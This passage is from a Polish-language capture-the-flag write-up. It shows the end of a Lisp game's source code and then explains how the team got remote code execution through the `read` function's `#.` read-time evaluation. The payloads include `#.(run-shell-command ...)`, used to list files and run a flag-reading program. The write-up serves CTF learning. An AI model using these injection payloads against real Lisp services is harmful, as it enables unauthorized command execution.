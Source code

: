 ```lisp
                     (format nil "~%L~{~<-~%-~,650:;~64,1,1,'=A~>~}-" '("")))
             )
        when (loop for mpos in monsters
                   always (> (count mpos monsters) 1))
        return (win)
        ))

(handler-case
  (loop while (= (play-game) 1))
  (error (e) (write-line "Invalid command")))
```

Następnie zaczęliśmy analizę kodu w poszukiwaniu podatności.
W kodzie są tylko 3 miejsca gdzie podajemy jakieś dane więc skupiliśmy się na nich.
Dane są wczytywane za pomocą funkcji `read` więc szukaliśmy informacji na temat exploitowaniu jej.
Trafiliśmy na: http://irreal.org/blog/?p=638

I to było dokładnie to czego potrzebowaliśmy!
Wysyłając:

```
#.(lisp_code)
```

Dostajemy remote code execution.
Następnie sprawdziliśmy jak wykonywać komendy shell z poziomu LISPa i wysłaliśmy:

```
#.(run-shell-command "ls")
```

Aby znaleźć falgę w `/getflag/flag` oraz program `getflag/read_flag` z uprawnieniami do odczytania flagi;
Uruchamiamy go:

```
#.(run-shell-command "./getflag/read_flag")
```

Aby odczytać flagę
